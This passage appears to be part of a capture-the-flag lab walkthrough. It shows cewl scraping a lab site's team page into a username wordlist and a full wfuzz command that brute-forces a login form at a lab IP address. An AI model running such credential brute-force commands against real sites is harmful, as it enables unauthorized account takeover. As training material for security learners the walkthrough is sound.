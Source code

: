 There are some interesting passwords...

Now for the usernames:

`cewl -d 0 -m 5 -w ~/Desktop/usernames.txt http://10.10.172.128/team.php --lowercase`

<img src="Media/Advent_day_4/img_2.jpg" height=50% width=50% >

Hmm... the password list and username list is looking the same...

So now let us use the wfuzz:

First go into the Desktop directory:

`cd Desktop`

Then type in the command :

`wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.172.128/login.php -d "username=FUZZ&password=FUZ2Z"`

Wait couple of seconds and you will get the credentials :)

<img src="Media/Advent_day_4/img_3.jpg" height=50% width=50% >
